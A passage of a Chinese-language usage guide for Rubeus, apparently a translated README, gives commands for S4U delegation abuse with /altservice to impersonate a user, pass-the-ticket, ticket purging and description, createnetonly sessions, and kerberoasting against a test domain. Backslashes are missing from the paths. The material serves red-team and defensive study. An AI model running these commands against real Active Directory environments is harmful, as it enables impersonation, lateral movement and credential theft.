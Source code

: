 **/altservice** 参数利用了 Alberto Solino‘s 的伟大发现，即 服务名称在KRB-CRED文件中不被保护 ，只有服务器名称才被保护。这就允许我们在生成的KRB-CRED（.kirbi）文件中替换我们想要的任何服务名称

这里原本只委托了ldap服务，使用/altservice参数改成cifs服务，仿冒用户```dfm.a```的权限

```
Rubeus.exe s4u /ticket:C:TempTicketspatsy.kirbi /impersonateuser:dfm.a /msdsspn:ldap/primary.testlab.local /altservice:cifs /ptt
```

# ptt
```
Rubeus.exe ptt /ticket:doIFmj...(snip)...
```


# purge

清除所有登录会话

```
Rubeus.exe purge
```


# describe

想了解一个特定的 .kirbi Kerberos 票据的详细信息。describe 操作使用 /ticket:X 参数（TGT或服务票据）

```
Rubeus.exe describe /ticket:doIFmjCC...(snip)...
```

# createnetonly
createnetonly 操作使用 CreateProcessWithLogonW() API 创建一个新的隐藏（除非指定了 /show 参数）进程，其SECURITY_LOGON_TYPE 是9（新建票据），相当于runas /netonly操作，返回这个进程的 ID 和 LUID （登录会话ID）。然后，就可以使用 ptt /luid:X 参数将指定的 Kerberos 票据应用于此进程，前提是已提升了权限。这样就可以防止清除当前登录会话的现有TGT

```
Rubeus.exe createnetonly /program:"C:WindowsSystem32cmd.exe"
```

# Kerberoast

kerberoast 操作实现了 SharpRoast 项目的功能

/spn:X 参数可针对指定的SPN 进行操作，/user:X 参数可针对指定的用户进行操作，/ou:X 参数可针对指定的 OU 中的用户进行操作。如果要使用备用域凭据进行 kerberoasing，可以使用 /creduser:DOMAIN.FQDNUSER /credpassword:PASSWORD 参数来指定

```
>Rubeus.exe kerberoast /ou:OU=TestingOU,DC=testlab,DC=local
```

